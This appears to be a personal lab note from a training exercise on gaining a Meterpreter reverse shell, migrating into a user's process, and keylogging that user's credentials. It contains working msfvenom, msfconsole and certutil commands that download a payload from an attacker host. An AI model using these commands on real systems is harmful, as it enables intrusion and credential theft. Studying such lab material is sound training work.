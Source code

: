 ```yaml
---
title: Meterpreter Migrate
updated: 2023-04-26T22:35:09.0000000+04:00
created: 2023-04-26T22:12:06.0000000+04:00
---
```


PM
Meterpreter has a built-in keylogger. This will be useful for extracting the user's keystrokes. However, we can't just start this keylogger and hope for the best since our shell is currently running in the SYSTEM context. SYSTEM won't be typing any keystrokes, so this won't help us. To capture the correct user's credentials, we will need to ensure that our shell is running in the context of that user.

Fortunately, Meterpreter provides us with a migrate feature, and since we are running as SYSTEM, we should be able to migrate to any process. You have remote code execution on THMSERVER1, use this to get a Meterpreter shell. However for a quick rundown, you can use the following command to

1.  Generate a PowerShell meterpreter payload:

| Command | msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1 |
|---------|------------------------------------------------------------------------------------------------------------|

![image1](image1-129.png)

2.  Hosting Python Webserver to host the created file.

![image2](image2-64.png)

| Command | Python3 -m http.server 8080 |
|---------|-----------------------------|

3.  You can then also use the following to create the associated listener in the msfconsole:

| Command | sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT "listening port'; exploit" |
|---------|--------------------------------------------------------------------------------------------------------------------------------------------------------------|

![image3](image3-45.png)
### 
4.  Copy the hosted msfvenom file to the evilwin-rm session with certiutil:

| Command | certutil.exe -urlcache -split -f [http:///attacker_ip:8080/filename.ps1](http://attacker_ip:8080/filename.ps1) outputname.ps1 |
|---------|-------------------------------------------------------------------------------------------------------------------------------|

![image4](image4-32.png)

5.  Run the uploaded .ps1 script.

![image5](image5-22.png)

6.  After running, you should get a shell in the meterpreter session

![image6](image6-14.png)

7.  Check if the user, has any running processes

| Command | ps \| grep "explorer" |
|---------|-----------------------|

![image7](image7-11.png)

8.  Migrate to a process PID

| Command | Migrate PID_number |
|---------|--------------------|

- Migrate to a PID, that has the User you require to migrate to.

9.  Performing keylogging

![image8](image8-10.png)

